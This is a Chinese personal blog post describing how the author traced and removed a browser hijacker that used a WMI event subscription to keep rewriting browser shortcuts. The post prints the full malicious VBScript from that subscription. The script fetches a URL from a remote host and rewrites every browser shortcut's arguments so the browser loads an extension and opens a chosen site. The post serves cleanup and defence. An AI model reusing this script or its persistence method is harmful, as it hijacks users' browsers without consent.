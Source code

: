 ```yaml
---
title: 修复恶意篡改浏览器快捷方式
categories:
- tech
---
```


记录一次删除恶意插件的过程。
---

<!-- more -->

下软件的时候明显发现不对劲，提示系统有漏洞，要下载什么补丁，虽然马上关了，但是发现过了一会又弹出来几个外国网站。最后发现是有一个chrome扩展在自动加载，路径在   C:\Users\ADMINI~1\AppData\Local\kemgadeojglibflomicgnfeopkdfflnk

然后每次打开chome的时候都会打开一个网站，查看快捷方式发现被改了，目标 "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"  --load-extension="C:\Users\ADMINI~1\AppData\Local\kemgadeojglibflomicgnfeopkdfflnk" http://fanli90.cn/

每次删掉过了一段时间又会重新加上，这才认定——系统被蛀了~！

用ProcessMonitor监视发现：

![]({{site.upload | relative_url}}/2017-01-19/20170119103430.jpg)

有系统进程在修改快捷方式！

安装后打开WMI event viewer，点击左上角register for events，弹出Connect to namespace框，填入“**root\subscription**”（root\CIMV2），确定，filter改为Consumers，出现下图：

![]({{site.upload | relative_url}}/2017-01-19/20170119103105.jpg)

虽然看不懂什么意思，但是注意到中间的script我就意识到，这种情况一般都是由脚本自动执行产生的，于是点进去查看，果然发现：

![]({{site.upload | relative_url}}/2017-01-19/20170119103120.jpg)

将ScriptText复制出来查看后发现罪魁祸首：

```
Dim xmlHttp:Dim homePageUrl:Set xmlHttp = CreateObject("MSXML2.XMLHTTP"):xmlHttp.open "GET", "http://bbtbfr.pw/GetHPHost?"&Timer(), False:On Error Resume Next:xmlHttp.send:if xmlHttp.status = 200 then:homePageUrl= xmlHttp.responseText:end if:Dim objFS:Set objFS = CreateObject("Scripting.FileSystemObject"):On Error Resume Next : link = homePageUrl: linkChrome = " --load-extension=""C:\Users\ADMINI~1\AppData\Local\kemgadeojglibflomicgnfeopkdfflnk"" " + homePageUrl:browsers = Array("IEXPLORE.EXE", "firefox.exe", "360SE.exe", "SogouExplorer.exe", "opera.exe", "Safari.exe", "Maxthon.exe", "TTraveler.exe", "TheWorld.exe", "baidubrowser.exe", "liebao.exe", "QQBrowser.exe","chrome.exe","360chrome.exe"):ChromeBrowsers = Array("chrome.exe","360chrome.exe"):Set BrowserDic = CreateObject("scripting.dictionary"):For Each browser In browsers:BrowserDic.Add LCase(browser), browser:Next:Set ChromeBrowserDic = CreateObject("scripting.dictionary"):For Each ChromeBrowser In ChromeBrowsers:ChromeBrowserDic.Add LCase(ChromeBrowser), ChromeBrowsers:Next:Dim FoldersDic(12):Set WshShell = CreateObject("Wscript.Shell"):FoldersDic(0) = "C:\Users\Public\Desktop":FoldersDic(1) = "C:\ProgramData\Microsoft\Windows\Start Menu":FoldersDic(2) = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs":FoldersDic(3) = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup":FoldersDic(4) = "C:\Users\Administrator\Desktop":FoldersDic(5) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu":FoldersDic(6) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs":FoldersDic(7) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup":FoldersDic(8) = "C:\Users\Administrator\AppData\Roaming":FoldersDic(9) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch":FoldersDic(10) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\StartMenu":FoldersDic(11) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar":Set fso = CreateObject("Scripting.Filesystemobject"):For i = 0 To UBound(FoldersDic):For Each file In fso.GetFolder(FoldersDic(i)).Files:If LCase(fso.GetExtensionName(file.Path)) = "lnk" Then:set oShellLink = WshShell.CreateShortcut(file.Path):path = oShellLink.TargetPath:name = fso.GetBaseName(path) & "." & fso.GetExtensionName(path):If BrowserDic.Exists(LCase(name)) Then:If ChromeBrowserDic.Exists(LCase(name)) Then:oShellLink.Arguments = linkChrome:else:oShellLink.Arguments = link:End if:If file.Attributes And 1 Then:file.Attributes = file.Attributes - 1:End If:oShellLink.Save:End If:End If:Next:Next:createobject("wscript.shell").run "cmd /c taskkill /f /im scrcons.exe", 0
```

于是将ActiveScriptEventConsumer.Name="ASEC"整个删除。整个世界安静了。


参考

http://blog.sina.com.cn/s/blog_8627ac3c010195ri.html

http://blog.csdn.net/scgump/article/details/50698443

http://www.05935.com/bc/180282/